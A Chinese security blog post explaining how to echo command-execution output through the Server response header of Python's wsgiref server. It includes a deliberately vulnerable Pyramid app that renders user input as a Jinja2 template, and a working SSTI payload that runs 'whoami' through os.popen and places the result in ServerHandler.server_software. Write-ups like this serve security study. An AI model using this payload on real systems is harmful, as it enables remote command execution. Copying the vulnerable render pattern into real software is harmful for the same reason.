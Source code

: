 # Python-Wsgiref通过Server回显命令

  
  
&lt;!--more--&gt;  
## 0x00 前言  
[`wsgiref`](https://docs.python.org/zh-cn/3/library/wsgiref.html#module-wsgiref &#34;wsgiref: WSGI Utilities and Reference Implementation.&#34;) 是 WSGI 规范的一个参考实现，可被用于将 WSGI 支持添加到 Web 服务器或框架中。 它提供了操作 WSGI 环境变量和响应标头的工具，实现 WSGI 服务器的基类，可部署 WSGI 应用程序的演示性 HTTP 服务器，用于静态类型检查的类型，以及一个用于检查 WSGI 服务器和应用程序是否符合 WSGI 规范的验证工具 ([**PEP 3333**](https://peps.python.org/pep-3333/))。  
## 0x01 前置知识  
先来写一个 Demo  
```python  
import jinja2  
from pyramid.config import Configurator  
from pyramid.httpexceptions import HTTPFound  
from pyramid.response import Response  
from pyramid.session import SignedCookieSessionFactory  
from wsgiref.simple_server import make_server  
def shell_view(request):  
    expression = request.GET.get(&#39;shellcmd&#39;, &#39;&#39;)  
    try:  
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({&#34;request&#34;: request})  
        if result != None:  
            return Response(&#39;success&#39;)  
        else:  
            return Response(&#39;error&#39;)  
    except Exception as e:  
        return Response(&#39;error&#39;)  
  
  
def main():  
    session_factory = SignedCookieSessionFactory(&#39;secret_key&#39;)  
    with Configurator(session_factory=session_factory) as config:  
        config.include(&#39;pyramid_chameleon&#39;)  # 添加渲染模板  
        config.add_static_view(name=&#39;static&#39;, path=&#39;/app/static&#39;)  
        config.set_default_permission(&#39;view&#39;)  # 设置默认权限为view  
  
        config.add_route(&#39;shell&#39;, &#39;/shell&#39;)  
  
        config.add_view(shell_view, route_name=&#39;shell&#39;, renderer=&#39;string&#39;, permission=&#39;view&#39;)  
  
        config.scan()  
        app = config.make_wsgi_app()  
        return app  
  
  
if __name__ == &#34;__main__&#34;:  
    app = main()  
    server = make_server(&#39;0.0.0.0&#39;, 6543, app)  
    server.serve_forever()  
```  
此`demo`存在`SSTI`漏洞，但是我们如何在不能通网，不能写文件的情况下得到执行RCE 的结果呢？  
很明显是需要通过其回显，但是内容写死了，无法更改，只能通过请求头来回显执行的结果  
首先来看一下  
`make_server()`，通过手册得知  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072334739.png)
实现了一个简易的`HTTP`服务器  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072335539.png)
`WSGIServer`是一个服务器类，用于监听客户端的 HTTP 请求并将这些请求传递给 `WSGIRequestHandler` 处理  
## 0x02 漏洞分析  
打一个断点，看一下调用栈  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072340140.png)
在`run()`方法中存在`finish_response()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072341178.png)
因为 Python 实现的大多数HTTP服务器均在此方法中设置了`send_headers()`，打一个断点，跟进一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072343656.png)
继续跟进其`write()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072344176.png)
可以看到在`write`方法中，正好存在`send_headers()`方法，继续跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072344975.png)
在这里跟进`send_preamble()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072345415.png)
正是此方法控制了响应头`Server`  
而此方法在`&lt;wsgiref.simple_server.ServerHandler object at 0x7fbba01eb5b0&gt;`中，利用 SSTI 控制此属性即可，构造`payload`  
```python  
{{lipsum.__spec__.__init__.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,&#34;server_software&#34;,lipsum[&#39;__globals__&#39;][&#39;os&#39;]|attr(&#39;popen&#39;)(&#39;whoami&#39;)|attr(&#39;read&#39;)())}}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072347843.png)
## Reference  
https://docs.python.org/zh-cn/3/library/wsgiref.html#module-wsgiref.simple_server  

---

> Author: N1Rvana  
> URL: http://localhost:1313/python-wsgiref%E9%80%9A%E8%BF%87server%E5%9B%9E%E6%98%BE%E5%91%BD%E4%BB%A4/  

